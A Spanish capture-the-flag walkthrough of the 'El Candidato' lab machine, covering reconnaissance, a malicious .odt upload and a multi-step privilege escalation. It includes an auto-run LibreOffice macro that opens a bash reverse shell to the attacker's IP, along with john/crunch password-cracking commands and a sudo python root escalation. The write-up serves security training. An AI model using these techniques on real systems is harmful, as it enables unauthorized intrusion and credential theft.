



# El candidato - The Hacker Labs

El Candidato es una máquina de la plataforma "The Hacker Labs", de dificultad intermedia. 

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Post Explotación](#post-explotación)
- [Escalada de Privilegios](#escalada-de-privilegios)

## Reconocimiento

Lo primero es buscar que hosts están encendidos dentro del rango de IPs 10.0.2.0/24, para ello utilizaremos nmap con el parametro -sn que tiene como función descubrir hosts activos, y poniendo 10.0.2.1-255 estaría probando desde la IP 10.0.2.1 hasta la 10.0.2.255
Podemos ver que están activas la 10.0.2.1, que es la puerta de enlace, la 10.0.2.11 que es mi IP y la 10.0.2.17.
Suponemos que la IP es la 10.0.2.17, por lo que hacemos ping para comprobarlo, por la ttl=64 podemos confirmar que la máquina es linux.


Hacemos un escaner con nmap para ver que puertos hay abiertos en el host.

`nmap -p- -vvv --open -T5 -Pn -n 10.0.2.17`


## Enumeración

Despues hacemos otro escaner Nmap para analizar que servicios corren en esos puertos.

`nmap -p 22,25,80,110,135,139,443,445,993,995 -sVC -Pn -n 10.0.2.17 -oN scan`

Podemos comprobar que principalmente corren varios servicios de correo como smtp, imap y pop3, un servicio Apache httpd, un OpenSSH y un SMB.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-02 14:23 CEST
Nmap scan report for 10.0.2.17
Host is up (0.0039s latency).

PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f5:83:ee:35:33:dc:c8:64:67:e5:1e:3d:37:ac:44:6e (ECDSA)
|_  256 49:84:2d:38:2b:f1:39:92:bc:13:7c:17:2a:ae:e8:a1 (ED25519)
25/tcp  open   smtp        Postfix smtpd
|_smtp-commands: gyhabogados.thl, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp  open   http        Apache httpd 2.4.62 ((Debian))
|_http-title: Gonz\xC3\xA1lez, Herrera y C\xC3\xADa. Abogados
|_http-server-header: Apache/2.4.62 (Debian)
110/tcp open   pop3        Dovecot pop3d
| ssl-cert: Subject: commonName=LawHacked.lawhacked.thl
| Subject Alternative Name: DNS:LawHacked.lawhacked.thl
| Not valid before: 2024-12-05T16:19:15
|_Not valid after:  2034-12-03T16:19:15
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: AUTH-RESP-CODE PIPELINING SASL(PLAIN LOGIN) TOP CAPA RESP-CODES STLS UIDL USER
135/tcp closed msrpc
139/tcp open   netbios-ssn Samba smbd 4.6.2
443/tcp closed https
445/tcp open   netbios-ssn Samba smbd 4.6.2
993/tcp open   ssl/imap    Dovecot imapd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=LawHacked.lawhacked.thl
| Subject Alternative Name: DNS:LawHacked.lawhacked.thl
| Not valid before: 2024-12-05T16:19:15
|_Not valid after:  2034-12-03T16:19:15
|_imap-capabilities: IMAP4rev1 ID LITERAL+ more post-login have listed SASL-IR ENABLE capabilities AUTH=PLAIN Pre-login IDLE AUTH=LOGINA0001 LOGIN-REFERRALS OK
995/tcp open   ssl/pop3    Dovecot pop3d
| ssl-cert: Subject: commonName=LawHacked.lawhacked.thl
| Subject Alternative Name: DNS:LawHacked.lawhacked.thl
| Not valid before: 2024-12-05T16:19:15
|_Not valid after:  2034-12-03T16:19:15
|_pop3-capabilities: TOP AUTH-RESP-CODE PIPELINING SASL(PLAIN LOGIN) RESP-CODES UIDL CAPA USER
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-05-02T12:23:37
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.95 seconds
```

Lo primero que miré fue el http, asi que ejecuté el comando whatweb para ver si me daba mas información pero no ví nada relevante.


Mirando la página, a primera vista parece estática.


Si en el panel de la derecha, le doy a "Trabaja con nosostros" me lleva a la pagina http://gyhabogados.thl/work-with-us.php


Escribo ese dominio en el archivo `/etc/hosts` para que el navegador lo relacione con la IP.

```
sudo su
echo '10.0.2.17    gyhabogados.thl' >> /etc/hosts
```

Después ejecuto el comando ffuf para ver si hay mas directorios de interés en la página.

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php -u "http://gyhabogados.thl/FUZZ"
```

Encuentro un directorio roundcube que me lleva a el login de un servicio Roundcube Webmail. Aunque esto de momento no nos va a ayudar mucho, pero ya sabemos que servicio tiene relación con los servicios de correo anteriormente vistos en el escaner Nmap.


```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php,.txt,.md -u "http://gyhabogados.thl/roundcube/FUZZ" -recursion
```

Vi que en la página http://gyhabogados.thl/work-with-us.php hay un formulario en el que se pueden subir archivos .pdf, .doc y .odt. Asi que me pareció interesante probar a subir un archivo .odt con una Macro que ejecutase una Reverse Shell en el momento de abrir el archivo.


# Explotación

Creo un nuevo archivo .odt con Libre Office y en Tools > Macros > Edit Macros... Creo una nueva Macro llamada Main en el que ejecuto el siguiente comando:

`Shell("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.0.2.11/4444 0>&1")`


Dentro de Tools > Customize... > Events. En Open Document pongo la Macro. Por lo tanto cuando el archivo .odt se abra, se ejecutará el codigo y podre obtener una shell reversa.




Ejecuto el comando nc para escuchar por el puerto 4444.

`nc -lvnp 4444`

Subo el archivo .odt, y después de un par de minutos obtengo la shell.


## Post-Explotación

Ejecuto los siguientes comandos para estabilizar la tty y obtener una shell funcional.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

## Escalada de privilegios

Dentro del directorio /home/bob hay un comprimido "credentials.7z" supongo que contiene la contraseña del usuario bob.


Creo un servidor con python en la máquina victima para descargar el comprimido en la máquina atacante.


Al intentar extraer el contenido me pide una contraseña. Por lo que habrá que intentar crackearla.


Con 7z2john creo un hash legible para johntheripper, y con el comando john trato de crackearlo. La contraseña del comprimido es `barcelona`

```
7z2john credentials.7z > hash.txt
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=7z
```


Descomprimo el contenido y encuentro las credenciales de bob.


Inicio sesion en el servicio de correo con la cuenta de bob y encuentro este correo con la contraseña de sam.


Ejecutamos `su sam`.


Ejecutando `id` me doy cuenta que sam esta en un grupo llamado abogados, por lo que con el comando `find` busco archivos pertenecientes a ese grupo.


Leyendo el archivo /mnt/RESPALDOS_IT/IMPORTANTE.txt veo que la contraseña de dean esta dentro de un archivo keystore /mnt/RESPALDOS_IT/credenciales.psafe3 y que su master key es ChevyImpala+(Un numero de cuatro dígitos).


Con el comando `crunch` creo una wordlist de contraseñas con ChevyImpala y todas las combinaciones de 4 dígitos.

`crunch 15 15 -t ChevyImpala%%%% -o passwords.txt`


Con el comando pwsafe2john creo el hash y con john y la wordlist generada anteriormente vemos que la master key es `ChevyImpala1995`

```
pwsafe2john credenciales.psafe3 > hash-psafe.txt
john -w=passwords.txt hash-psafe.txt --format=pwsafe
```


Abrimos el archivo con `pwsafe` si no lo tienes lo puedes descargar aqui:

https://github.com/pwsafe/pwsafe/releases?q=non-windows&expanded=true

`pwsafe &`


Copiamos la contraseña y nos autenticamos como dean.


Vemos que dean esta en el grupo it, el cual tiene acceso a /mnt/IT_TOOLS


Dentro hay un archivo `private_key.ppk`



También si nos vamos a /home/dean tenemos el user.txt.


Como el archivo private_key.ppk es una private key de putty intentamos conectarnos con putty como usuario john. Y conseguimos acceso.




No pude encontrar como escalar a root asi que probé a ver si había alguna vulnerabilidad con linpeas.sh, pero no tuve exito.

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Después de un rato sin encontrar nada inicie sesión en el servicio de correo como dean, y encontré este correo con una imagen.


Me descargué la imagen y probé si era un archivo stego y tuve la suerte de poder extraer las credenciales de john.


Me conecté como john por SSH y ejecute `sudo -l` para ver si habian comandos que pudiese ejecutar con permisos sudo.
Vi que podía ejecutar `sudo /usr/bin/python3 /home/john/tools/backup.py`


Cree el archivo `/home/john/tools/backup.py` escribiendole `import os;os.system("/bin/bash")` despues ejecute `sudo /usr/bin/python3 /home/john/tools/backup.py` y se abrió una shell como usuario root.


Dentro de /root leí el archivo notes.txt.

